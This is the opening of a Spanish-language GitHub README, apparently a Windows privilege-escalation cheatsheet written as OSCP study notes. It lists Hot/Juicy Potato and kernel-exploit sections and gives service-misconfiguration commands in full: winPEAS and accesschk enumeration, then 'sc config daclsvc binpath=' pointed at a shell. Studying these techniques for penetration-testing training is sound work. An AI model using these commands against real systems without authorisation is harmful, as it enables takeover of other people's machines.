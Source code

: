 # Windows-Priv-Esc
Una cheatsheet con los conceptos para poder escalar privilegios en Windows.

## Índice

- [Windows-Priv-Esc](#windows-priv-esc)
     * [Service Exploits](#services-exploits)
     * [Kernel Exploits](#kernel-exploits)
     * [Password](#password)
     * [Scheduled Tasks](#scheduled-tasks)
     * [Insecures GUI Apps](#insecures-gui-apps)
     * [Startup Apps](#startup-apps)
     * [Apps Exploits](#apps-exploits)
     * [Hot Potatos](#hot-potato)
     * [Juicy Potatos](#juicy-potatos)
     * [Port Forwarding](#port-forwarding)

# Windows-Priv-Esc
Una cheatsheet con los conceptos para poder escalar privilegios en Windows.

# Windows Priv Esc
- Notas realizadas para la preparación de OSCP


## Services Exploits
- Son serivicios que corren en segundo plano si el servicios es corrido por el admin o system user y estan mal configurados pueden ser usados para escalar privilegios

```
Query la configuración de un servicio
> sc.exe qc <nombre>

Query la configuración del estado de un servicio
> sc.exe query <nombre>

Modificar la configuración de un servicio

> sc.exe config <nombre> <opción>= <valor>

Empezar o terminar un servicio

> net start/stop <nombre>

```

### Insecure Service Properties
> Los servicios tiene que tener siempre permisos de (SERVICE_QUERY_CONFIG, SERVICE_STOP, SERVICE_START, SERVICE_ALL_ACCESS y SERVICE_CHANGE_CONFIG)
> **Es importante que tengamos siempre permisos de reniciar el servicio para poder escalar los previlegios**
```
> winPEASS quiet servicesinfo

> accesschk.exe /accepteula -uwcqv user daclsvc

> sc qc daclsvc 

> sc query service

> sc config daclsvc binpath= "RUTA DONDE TENGAMOS UNA SHELL"
```